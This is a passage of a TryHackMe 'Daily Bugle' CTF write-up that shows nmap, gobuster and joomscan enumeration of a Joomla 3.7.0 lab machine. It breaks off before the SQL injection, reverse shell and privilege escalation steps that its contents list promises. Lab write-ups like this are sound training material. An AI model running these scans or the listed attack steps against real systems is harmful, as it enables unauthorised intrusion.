








# Try Hack Me Writeup - Daily Bugle

- TryHackMe room: <https://tryhackme.com/room/dailybugle>
- OS: `Linux (CentOS)`

Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.


**WARNING: I stripped out the answers, passwords, flags and co. This writeup is pretty detailed. By following and doing the steps described here yourself you will get them all. The goal is to learn more about it, even if you get stuck at some point. Enjoy!**

## Table of Contents

- [Answer the questions](#answer-the-questions)
- [Setup](#setup)
- [Tools Used](#tools-used)
- [Enumeration of ports and services](#enumeration-of-ports-and-services)
- [Enumerating the website manually](#enumerating-the-website-manually)
- [Enumerating with gobuster](#enumerating-with-gobuster)
- [Enumerating with joomscan](#enumerating-with-joomscan)
- [Looking for vulnerabilities we can exploit](#looking-for-vulnerabilities-we-can-exploit)
- [Exploiting Joomla with the Joomblah Python script](#exploiting-joomla-with-the-joomblah-python-script)
- [Cracking the hash](#cracking-the-hash)
- [Installing and using a reverse shell](#installing-and-using-a-reverse-shell)
- [Stabilizing the shell](#stabilizing-the-shell)
- [Grabbing the user flag, a try](#grabbing-the-user-flag-a-try)
- [Horizontal user privilege escalation](#horizontal-user-privilege-escalation)
- [Vertical user privilege escalation](#vertical-user-privilege-escalation)

## Answer the questions

- Access the web server, who robbed the bank?
- What is the Joomla version? _Hint: I wonder if this version of Joomla is vulnerable..._
- *Instead of using SQLMap, why not use a python script!* What is Jonah's cracked password? _Hint: SQLi & JohnTheRipper_
- What is the user flag?
- What is the root flag?

## Setup

```commandline
$ export IP_TARGET=10.10.96.66
$ export WRITEUP="$HOME/Documents/THM/dailybugle/"
$ mkdir -p $WRITEUP
$ cd $WRITEUP
$ tmux
```

## Tools Used

| Name tool | Usage |
|---|---|
| `nmap` | To scan for open ports and services on the target machine. |
| `gobuster` | To enumerate directories and files of the web server on the target machine. |
| `Joomla` | The Content Management System that is installed on the target machine. |
| `joomscan` | To enumerate the Joomla CMS. |
| `joomblah` | Python script to make use of the CVE-2017-8917 vulnerability. |
| `hashcat` / `john` | To crash the hash of the low privilege user account. |
| `php-reverse-shell.php` | The web shell used. |
| `nc` | To create a reverse shell connection. |

## Enumeration of ports and services

````commandline
# nmap -sCV -oN initial_scan.nmap $IP_TARGET
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-04 12:04 CEST
Nmap scan report for 10.10.96.66
Host is up (0.041s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.40 seconds
```` 

## Enumerating the website manually

Looking at the website, we can recognize the `Joomla` fav icon in the top left corner. There is one and only one article on this website, written by `Super User`. The answer to the question of this CTF challenge, who robbed the bank seems to be obvious, but the answer is not written that way as displayed (REDACTED).

Looking at the source code of the 2 different pages (main page and the post in question) and there is nothing suspect to be seen. The picture displayed also did not reveal anything when looking with tools such as `strings`, `exiftool` and `binwalk`. So on this part, we can not gather more information.



Looking at the `robots.txt` file which was a pure but good guess, reveals the following:

```
# If the Joomla site is installed within a folder 
# eg www.example.com/joomla/ then the robots.txt file 
# MUST be moved to the site root 
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths. 
# eg the Disallow rule for the /administrator/ folder MUST 
# be changed to read 
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/orig.html
#
# For syntax checking, see:
# http://tool.motoricerca.info/robots-checker.phtml

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

So we found the administrator log in page at <http://10.10.96.66/administrator/>. But so far, we do not have credentials yet.

## Enumerating with gobuster

So let's continue our enumeration process. We never know what else we can find with automated tools. The first `gobuster` scan I ran, resulted in nothing useful. Listen to your intuitions. So I have relaunched a scan and brute forced on the file extensions too. Which made the scan run for ages. Even with 50 threats.

````commandline
$ gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$IP_TARGET -t 50 -x html,php,txt,conf
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.96.66
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php,txt,conf
[+] Timeout:                 10s
===============================================================
2021/09/04 12:42:08 Starting gobuster in directory enumeration mode
===============================================================
/templates            (Status: 301) [Size: 237] [--> http://10.10.96.66/templates/]
/media                (Status: 301) [Size: 233] [--> http://10.10.96.66/media/]    
/index.php            (Status: 200) [Size: 9276]                                   
/modules              (Status: 301) [Size: 235] [--> http://10.10.96.66/modules/]  
/images               (Status: 301) [Size: 234] [--> http://10.10.96.66/images/]   
/bin                  (Status: 301) [Size: 231] [--> http://10.10.96.66/bin/]      
/plugins              (Status: 301) [Size: 235] [--> http://10.10.96.66/plugins/]  
/includes             (Status: 301) [Size: 236] [--> http://10.10.96.66/includes/] 
/language             (Status: 301) [Size: 236] [--> http://10.10.96.66/language/] 
/README.txt           (Status: 200) [Size: 4494]                                   
/components           (Status: 301) [Size: 238] [--> http://10.10.96.66/components/]
/cache                (Status: 301) [Size: 233] [--> http://10.10.96.66/cache/]     
/libraries            (Status: 301) [Size: 237] [--> http://10.10.96.66/libraries/] 
/robots.txt           (Status: 200) [Size: 836]                                     
/tmp                  (Status: 301) [Size: 231] [--> http://10.10.96.66/tmp/]       
/LICENSE.txt          (Status: 200) [Size: 18092]                                   
/layouts              (Status: 301) [Size: 235] [--> http://10.10.96.66/layouts/]   
/administrator        (Status: 301) [Size: 241] [--> http://10.10.96.66/administrator/]
/configuration.php    (Status: 200) [Size: 0]                                          
/htaccess.txt         (Status: 200) [Size: 3005]                                       
/cli                  (Status: 301) [Size: 231] [--> http://10.10.96.66/cli/]          
                                                                                       
===============================================================
2021/09/04 12:54:02 Finished
===============================================================
````

From our previous `gobuster` scan, we know now there is a file <http://10.10.96.66/README.txt>. Looking at this file, we see the `Joomla` version. This file does really specify the whole version numbering as requested in the question of this CTF challenge, so I guessed and added a `0` on the end of that version and this seems to be correct. Actually, `joomscan` will be more precise and tell us.

Another good hint here from our enumeration, is that there is a `configuration.php` file. Like the name tells it, it is the configuration file for this `Joomla CMS`. It probably holds credentials. At this stage it's worthless, as accessing this file with the web browser, will not render the content and provide us anything as the `PHP` will preprocessed this file and strip out data we actually want. 

## Enumerating with joomscan

As this is a `Joomla` website, we can make use of the `joomscan` script. A tool which is packaged for `Kali`, but not installed by default. So we have to install this first `sudo apt install joomscan`. Then we can make use of it.

````commandline
$ joomscan --url http://$IP_TARGET --enumerate-components
````

Which produced a lot of output of each Joomla component. 

````commandline
    ____  _____  _____  __  __  ___   ___    __    _  _                      
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  (                      
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)                     
                        (1337.today)                                         

    --=[OWASP JoomScan                                                       
    +---++---==[Version : 0.0.7                                              
    +---++---==[Update Date : [2018/09/23]           
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo              
    --=[Code name : Self Challenge                                           
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP                    

Processing http://10.10.96.66 ...                                            


[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.0

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing : 
http://10.10.96.66/administrator/components
http://10.10.96.66/administrator/modules
http://10.10.96.66/administrator/templates
http://10.10.96.66/images/banners


[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://10.10.96.66/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://10.10.96.66/robots.txt 

Interesting path found from robots.txt 
http://10.10.96.66/joomla/administrator/
http://10.10.96.66/administrator/
http://10.10.96.66/bin/
http://10.10.96.66/cache/
http://10.10.96.66/cli/
http://10.10.96.66/components/
http://10.10.96.66/includes/
http://10.10.96.66/installation/
http://10.10.96.66/language/
http://10.10.96.66/layouts/
http://10.10.96.66/libraries/
http://10.10.96.66/logs/
http://10.10.96.66/modules/
http://10.10.96.66/plugins/
http://10.10.96.66/tmp/

[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found

[+] Enumeration component (com_ajax)
[++] Name: com_ajax
Location : http://10.10.96.66/components/com_ajax/
Directory listing is enabled : http://10.10.96.66/components/com_ajax/


[+] Enumeration component (com_banners)
[++] Name: com_banners
Location : http://10.10.96.66/components/com_banners/
Directory listing is enabled : http://10.10.96.66/components/com_banners/


[+] Enumeration component (com_contact)
[++] Name: com_contact
Location : http://10.10.96.66/components/com_contact/
Directory listing is enabled : http://10.10.96.66/components/com_contact/


[+] Enumeration component (com_content)
